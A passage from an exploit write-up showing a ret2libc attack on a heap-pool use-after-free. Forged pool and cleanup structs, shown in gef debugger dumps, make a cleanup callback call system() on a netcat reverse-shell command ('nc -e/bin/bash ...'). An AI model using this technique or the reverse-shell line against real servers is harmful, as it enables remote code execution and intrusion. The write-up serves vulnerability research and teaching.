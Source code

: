 Chaining all this together into an exploit, this is an screenshot of the successful exploitation of this vulnerability using the ROP approach:

![Demo](https://i.imgur.com/TPaASKI.png)

### ret2libc or ret2X

You can jump to any function and control one argument, this means you can call any function with an arbitrary argument. You can reuse register values for other arguments aswell, but you rely on current registers to be valid for target function, eg.: an invalid pointer would trigger a crash

The approach I followed with this method is calling `system()` and pointing RDI to a custom command string (netcat reverse shell) I leave in heap with a predictable address.

First we reach `destroy_pool()` with the fake `pool_rec` struct, actually we reuse entries from our initially controlled struct:

```
gef➤  p *p
$1 = {
  first = 0x563f5c9c6280,
  last = 0x7361626174614472,
  cleanups = 0x563f5c9a62d0,
  sub_pools = 0x563f5c9a6298,
  sub_next = 0x563f5c9a62a0,
  sub_prev = 0x563f5c9a0a90,
  parent = 0x563f5c94a738,
  free_first_avail = 0x563f5c94a7e0 "\260\251\224\\?V",
  tag = 0x563f5c9a526e ""
}
gef➤  p *resp_pool
$2 = {
  first = 0x563f5c9a62d0,
  last = 0x563f5c9a6298,
  cleanups = 0x563f5c9a62a0,
  sub_pools = 0x563f5c9a0a90,
  sub_next = 0x563f5c94a738,
  sub_prev = 0x563f5c94a7e0,
  parent = 0x563f5c9a526e,
  free_first_avail = 0x563f5c9a526e "",
  tag = 0x563f5c9a526e ""
}
```

Then, `destroy_pool()` is going to call `clear_pool()`, which finally ends up calling `run_cleanups()`  with our fake  `cleanup_t` struct, pointed to by `p->cleanups`:

```
gef➤  p *c
$3 = {
  data = 0x563f5c9a62f0,
  plain_cleanup_cb = 0x7fca503f1410 <__libc_system>,
  child_cleanup_cb = 0x4141414141414141,
  next = 0x4242424242424242
}
gef➤  x/s c->data
0x563f5c9a62f0:	"nc -e/bin/bash 127.0.0.1 4444"
```
